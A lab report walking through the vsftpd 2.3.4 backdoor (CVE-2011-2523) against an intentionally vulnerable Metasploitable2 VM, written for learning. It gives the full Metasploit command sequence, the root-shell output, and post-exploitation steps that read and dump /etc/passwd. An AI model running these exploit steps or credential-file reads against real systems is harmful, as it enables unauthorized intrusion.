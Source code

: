 # Cybersecurity Lab Report – vsftpd 2.3.4 Exploit Walkthrough

**Date:** 2025-05-14  
**Target:** Metasploitable2 (192.168.56.101)  
**Attacker:** Kali Linux (192.168.56.102)  
**Tool Used:** Metasploit Framework  
**Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`

Summary: vsftpd 2.3.4 Exploitation Lab

In this lab, I successfully exploited a known vulnerability in the vsftpd 2.3.4 FTP service on a Metasploitable2 virtual machine using Metasploit Framework. This vulnerability (CVE-2011-2523) allows an attacker to trigger a malicious backdoor embedded in the vsftpd binary, leading to a remote root shell on the target system.

I set up a full home lab environment using VirtualBox, configuring both Kali Linux as the attacker machine and Metasploitable2 as the intentionally vulnerable target. After establishing connectivity between the VMs via host-only networking, I performed initial reconnaissance using nmap to identify exposed services.

Upon confirming the FTP service and version, I launched the exploit/unix/ftp/vsftpd_234_backdoor module in Metasploit, which successfully opened a root shell on the target. Post-exploitation steps included system enumeration and reviewing the /etc/passwd file to identify local user accounts and assess further attack vectors.

This lab demonstrates my ability to:

Set up and configure virtual environments for ethical hacking

Conduct network scanning and service enumeration

Use Metasploit for real-world exploit execution

Perform basic post-exploitation enumeration and analysis


---

## Objective

Establish unauthorized remote access to a vulnerable FTP service (vsftpd 2.3.4) running on Metasploitable2 using the Metasploit Framework.

---

## Exploitation Steps

1. **Start Metasploit Console**
    ```bash
    msfconsole
    ```

2. **Search and select the exploit module**
    ```bash
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```

3. **Configure target IP**
    ```bash
    set RHOST 192.168.56.101
    ```

4. **Launch the exploit**
    ```bash
    exploit
    ```

5. **Successful Result**
    ```
    [+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.102:42427 -> 192.168.56.101:6200)
    ```

---

## Post-Exploitation Enumeration

## Whoami
```bash
whoami
> root

## System Information
uname -a
> Linux metasploitable 2.6.24-16-server ...

## User Enumeration
cat /etc/passwd

## Output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false

## Analysis
vsftpd 2.3.4 contains a backdoor vulnerability (CVE-2011-2523)

A crafted username triggers a hidden shell on port 6200

Exploitation using Metasploit successfully created a root shell session

/etc/passwd reveals many local user accounts:

root, msfadmin, postgres, user, service

## Outcome
Gained remote root access to Metasploitable2

Confirmed working exploit with Metasploit

Successfully performed post-exploitation enumeration

Verified lab network and tools are functioning as expected

